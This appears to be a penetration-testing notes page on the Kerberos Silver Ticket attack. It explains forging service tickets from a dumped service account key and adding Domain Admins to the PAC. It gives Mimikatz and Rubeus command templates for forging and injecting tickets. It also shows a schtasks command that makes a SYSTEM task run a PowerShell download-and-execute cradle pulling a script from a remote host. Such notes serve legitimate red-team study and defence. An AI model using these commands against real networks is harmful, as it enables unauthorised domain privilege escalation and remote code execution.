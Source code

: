 #mimikatz #schtasks #klist
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- Way more silent and powerful compared to the Golden Ticket attack because we are not interacting with the Domain Controller. We only interact with the service.
- A trade-off of this attack is that, the persistence duration is less than of the Golden Ticket attack, as the machine account (response for running services like win-rm, smb etc.) usually has a password rotation duration of 30 days.
- The key can be dumped from the lsass process memory or by [Kerberoast](Kerberoast.md), or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 
### Mimikatz
- Mimikatz can be used to forge silver tickets
```powershell
# Create silver ticket to list shares on the machine
kerberos::golden
	/user:administrator # username for which ST is generated
	/domain:<domain> # fqdn of the domain
	/sid:<sid> # sid of the domain
	/target:<server> # fqdn of the target server
	/service<service> # SPN of the service for which ST will be generated
	/aes256:<key> # aes key of the service account
	/id:<id> /group:<group> # Optional ID and groups
	/ptt # inject the ticket in current session
	# or
	/ticket # save the ticket on disk
	

# Create silver ticket to gain remote execution on the machine.
# set /service:HOST, this allows to schedule tasks on the machine.
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:HOST /rc4:<key> /user:Administrator /ptt
# verifiy with klist
klist
# shchedule the malicious task
schtasks /create /S machine.mydomain.local /SC Weekly /RU "NT Authoririty\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DonwloadString(''http://ip/file.ps1''')'"
# Run the task
schtasks /Run /S machine.mydomain.local /TN "STCheck"
```
### Rubeus
```powershell
Rubeus.exe
	silver
	/service:<spn> # SPN of the service
	/aes256:<key> # kerberos key of the service account of the above service
	/user:<username> # username for which the service account is created
	/ldap # make ldap queries to fetch details
	/ptt # Inject the key in current process memory
	[/printcmd] # print the rubues command to crate the same ticket with information fetched from ldap
```
### Services
- `HTTP` for WIM-RM
- `cifs` for SMB
- `HOST` for scheduling tasks
- `RPCSS` and `HOST` or WMI